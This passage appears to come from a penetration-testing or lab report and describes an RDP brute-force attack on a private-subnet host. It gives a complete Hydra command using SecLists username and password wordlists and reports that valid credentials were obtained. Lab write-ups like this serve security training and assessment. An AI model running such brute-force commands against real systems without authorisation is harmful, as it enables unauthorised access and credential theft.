

## 5.4 RDP Brute-Force Attack Using Hydra

Based on the scanned `192.168.3.0/24` subnet, a **brute-force attack** was performed using **Hydra** and **wordlists from the SecLists package** to attempt logging into the victim machine via RDP.

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt \
      -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt \
      -t 2 -V -f -u rdp://192.168.3.10
```

The attempt was **successful**, and **valid login credentials were obtained**  
(**Figure 5**).



**Figure 5 — Terminal output showing successful RDP password cracking with Hydra**
